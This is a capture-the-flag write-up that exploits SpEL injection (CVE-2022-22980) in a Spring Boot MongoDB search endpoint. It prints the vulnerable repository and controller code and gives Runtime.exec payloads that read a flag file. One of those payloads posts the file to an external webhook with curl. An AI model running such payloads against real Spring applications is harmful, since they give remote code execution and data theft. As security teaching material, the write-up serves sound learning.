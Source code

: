 # SpELling it out - CTF Write-up

## Challenge Description
A HR platform where the company can know about the informations about the people who work there. While its a normal web app from outside we can access flag.txt which is residing in that particular server.


## Initial Analysis

Looking at the userRepository.java file:
```java
public interface UserRepository extends CrudRepository<User, String> {
    @Query("{ 'username': { $regex: ?#{?0} } }")
    List<User> findByUsernameContaining(String username);
}
```


Looking at the userController.java:
```java
@RestController
@RequestMapping("/api/users")
public class UserController {
    @Autowired
    private UserRepository userRepository;

    @GetMapping("/search")
    public ResponseEntity<?> searchUsers(@RequestParam String username) {
        try {
            String decodedUsername = new String(Base64.getUrlDecoder().decode(username));
            List<User> users = userRepository.findByUsernameContaining(decodedUsername);
            return ResponseEntity.ok(users);
        } catch (IllegalArgumentException e) {
            return ResponseEntity.badRequest().body("Invalid Base64 input for 'username'");
        } catch (Exception e) {
            return ResponseEntity.status(500).body("An unexpected error occurred:");
        }
    }
}
```




Key observations:
1. Uses @Query with ?#{?0} which is vulnerable to Spring expression language injection
2. By checking the version of Spring Boot Starter Data MongoDB from pom.xml its confirmed it is vulnerable
3. Confirmed with CVE-2022-22980
4. there is no way of getting any output from the application.


## Exploitation Steps

### 1. Confirming the vulnerability
First try lets try it parsing some SpEL code like 'abc'.replace('abc', 'john_doe') as your base64 encoded payload, if it then runs that particular payload and returns that one particular employee, then the vulnerable to SpEL injection


### 2. Crafting the Payload
We found that flag.txt is in the etc/flag.txt, so to cat out the flag, we can write a spring expression:
```bash
T(java.lang.Runtime).getRuntime().exec(new String[]{"/bin/sh", "-c", "cat /app/flag.txt"})
```

### 3. Getting the Flag
We know there is no way to get any output, but we can send out the payload as a get request somewhere and recieve it, and finally get the flag, so we can use something like:
```bash
T(java.lang.Runtime).getRuntime().exec(new String[]{"/bin/sh", "-c", "curl -X POST https://webhook.site/6300846b-3722-46a5-9451-9eee5cfc45ec -d flag=$(cat /etc/flag.txt)"})
```
encode this payload and get the flag in the webhook site.

## Tools Used
- Burp Suite/Postman for requests
- Java knowledge for crafting the payload

## Flag
`p_ctf{y0u_FiN4l1y_F0uNd_hOw_To_SpEL_iT}`
